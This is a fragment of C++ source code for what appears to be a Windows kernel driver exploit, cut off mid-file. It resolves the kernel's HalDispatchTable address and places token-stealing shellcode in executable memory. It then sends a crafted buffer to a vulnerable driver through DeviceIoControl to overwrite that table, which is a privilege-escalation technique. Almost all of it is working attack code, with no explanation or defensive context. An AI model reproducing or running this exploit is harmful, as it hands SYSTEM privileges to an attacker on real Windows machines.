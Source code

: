 ```cpp
    kernelImage = strrchr(kernelImage, '\\') + 1;

    wprintf(L"[+] Kernel Image name %S\n", kernelImage);
    wprintf(L"[+] Kernel Image Base %p\n", kernelImageBase);

    HMODULE KernelHandle = LoadLibraryA(kernelImage);
    wprintf(L"[+] Kernel Handle %p\n", KernelHandle);

    PVOID HALUserLand = (PVOID)GetProcAddress(KernelHandle, "HalDispatchTable");
    wprintf(L"[+] HalDispatchTable userland %p\n", HALUserLand);

    PVOID HalDispatchTable = (PVOID)((ULONG)kernelImageBase - (ULONG)KernelHandle + (ULONG)HALUserLand + 4);

    wprintf(L"[~] HalDispatchTable Kernel %p\n", HalDispatchTable);




    printf("[~] HalDispatchTable Kernel: %p\n", HalDispatchTable);
    const char* shellcode = "\x90\x90\x90\x90\x60\x31\xc0\x64\x8b\x80\x24\x01\x00\x00\x8b\x40\x50\x89\xc1\xba\x04\x00\x00\x00\x8b\x80\xb8\x00\x00\x00\x2d\xb8\x00\x00\x00\x39\x90\xb4\x00\x00\x00\x75\xed\x8b\x90\xf8\x00\x00\x00\x89\x91\xf8\x00\x00\x00\x61\x31\xc0\x83\xc4\x24\x5d\xc2\x08\x00";
    LPVOID shellc_ptr = VirtualAlloc(0, 65, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (shellc_ptr)
    memcpy(shellc_ptr, shellcode, 65);

    printf("[+] Calling CreateFileA() to obtain a handle to driver\n");
    HANDLE hDevice = CreateFileA(kDevName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
                    
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Error - dailed to get file handle!\n");
        system("pause");
        return -1;
    }
    printf("[+] Successfully obtained a handle to the driver\n");

    char poc[113] = "AAAABBBB222233334444555566667777888899990000zzzzxxxxccccvvvvbbbbnnnnmmmmaaaassssddddffffgggghhhhjjjjkkkkllllpppp";

    DWORD bytesRetn;

    LPVOID *var1 = &shellc_ptr;

    poc[0] = ((unsigned char*)&var1)[0];
    poc[1] = ((unsigned char*)&var1)[1];
    poc[2] = ((unsigned char*)&var1)[2];
    poc[3] = ((unsigned char*)&var1)[3];

    poc[4] = ((unsigned char*)(&HalDispatchTable))[0];
    poc[5] = ((unsigned char*)(&HalDispatchTable))[1];
    poc[6] = ((unsigned char*)(&HalDispatchTable))[2];
    poc[7] = ((unsigned char*)(&HalDispatchTable))[3];

    printf("[+] Starting interaction with the driver\n");
    DeviceIoControl(hDevice, IO_CODE, (LPVOID)poc, 100, NULL, 0, &bytesRetn, NULL);

    CloseHandle(hDevice);

    //HMODULE ntdll = GetModuleHandleA("ntdll");
    typedef NTSTATUS(NTAPI* PtrNtQueryIntervalProfile)(DWORD ProfileSource, PULONG Interval);
    
```